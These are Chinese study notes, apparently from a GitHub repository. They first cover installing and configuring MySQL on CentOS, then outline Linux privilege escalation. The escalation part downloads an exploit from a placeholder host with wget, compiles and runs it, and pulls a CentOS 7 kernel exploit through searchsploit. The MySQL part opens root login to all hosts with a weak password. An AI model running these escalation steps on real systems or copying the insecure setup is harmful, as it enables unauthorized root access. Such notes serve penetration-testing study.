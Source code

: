 ## mysql 默认安装的文件位置
通过yum 安装
> https://www.cnblogs.com/chinesern/p/8440206.html#:~:text=centos6%20%E4%B8%8B%E4%BF%AE%E6%94%B9yum%E5%AE%89%E8%A3%85%E7%9A%84mysql%E9%BB%98%E8%AE%A4%E7%9B%AE%E5%BD%95%201%201.%E5%88%9B%E5%BB%BA%E6%96%B0%E7%9B%AE%E5%BD%95%202%202.%E6%8A%8AMySQL%E6%9C%8D%E5%8A%A1%E8%BF%9B%E7%A8%8B%E5%81%9C%E6%8E%89%EF%BC%9A%203%203.,4.%E4%BF%AE%E6%94%B9%E9%85%8D%E7%BD%AE%E6%96%87%E4%BB%B6%20my.cnf%205%205.%E4%BF%AE%E6%94%B9MySQL%E5%90%AF%E5%8A%A8%E8%84%9A%E6%9C%AC%2Fetc%2Finit.d%2Fmysql%206%206.%E6%A3%80%E6%9F%A5%E7%9B%B8%E5%85%B3%E7%9B%AE%E5%BD%95%E7%9A%84%E5%B1%9E%E4%B8%BB%E5%92%8C%E6%9D%83%E9%99%90%E3%80%82%207%207.%E9%87%8D%E6%96%B0%E5%90%AF%E5%8A%A8MySQL%E6%9C%8D%E5%8A%A1

### 重要目录

#(a)数据库目录
/var/lib/mysql/
#(b)配置文件
/usr/share/mysql（mysql.server命令及配置文件）
#(c)相关命令
/usr/bin（mysqladmin mysqldump等命令）
#(d)启动脚本
/etc/rc.d/init.d/（启动脚本文件mysql的目录）

```
1、安装客户端和服务器端
#确认mysql是否已安装：    
yum list installed mysql*
rpm -qa | grep mysql*

#查看是否有安装包：
yum list mysql*

#安装mysql客户端：
yum install mysql

#安装mysql 服务器端：
yum install mysql-server
yum install mysql-devel

2、启动、停止设置
#数据库字符集设置
#mysql配置文件/etc/my.cnf中加入
default-character-set=utf8

#启动mysql服务：
service mysqld start
#或者
/etc/init.d/mysqld start

#设置开机启动：
chkconfig --add mysqld

#查看开机启动设置是否成功
chkconfig --list | grep mysql*
mysqld 0:关闭 1:关闭 2:启用 3:启用 4:启用 5:启用 6:关闭

#停止mysql服务：
service mysqld stop

3、登录及忘记修改密码

#创建root管理员：
#mysqladmin -u root password 666666

#登录：
mysql -u root -p

#如果忘记密码，则执行以下代码来修改密码

service mysqld stop
mysqld_safe --user=root --skip-grant-tables
mysql -u root
use mysql
update user set password=password("666666") where user="root";
flush privileges;

4、远程访问设置

#开放防火墙的端口号
#mysql增加权限：
#mysql库中的user表新增一条记录host为“%”，user为“root”

use mysql;
UPDATE user SET Host = '%' WHERE User = 'root' LIMIT 1;

#%表示允许所有的ip访问

4.修改配置文件 my.cnf
#假如/etc/目录下没有my.cnf配置文档，请到/usr/share/mysql/下找到*.cnf文档
#拷贝其中一个到/etc/并改名为my.cnf中。命令如下：
cp /usr/share/mysql/my.cnf　/etc/my.cnf


vi　 my.cnf　　 
[mysqld]
port　　　= 3306
socket　 = /home/data/mysql/mysql.sock　　　#修改socket参数



```

# shell提权

利用系统漏洞提权
	内核提权
第三方软件
	套路比较多，很难想象，实战中体会
		dc系列---靶机渗透---提权操作
收集系统信息
	uname -a
	id
	pwd
	cat /etc/issue					Kali GNU/Linux Rolling \n \l
	w								谁目前已登录了，正在做什么？
	last							最后登录的用户列表
	lastlog							所有用户上次登录的信息
	lastlog	-u %username%			有关指定用户上次登录的信息

linux提权套路：
	和windows类似，windows需要传一个.exe文件，而这里也需要传一个文件
	套路步骤：
		wget http://exp/exp.c
		gcc -o exp exp.c
		chmod +x exp
		./exp

搜索漏洞库
	kali漏洞库
	searchsploit centos 7
	searchsploit -m 35370
kali中开启http服务
	python -m SimpleHTTPServer 8080
运行提权脚本
	gcc 35370.c -o exploit -lpthread
	./exploit




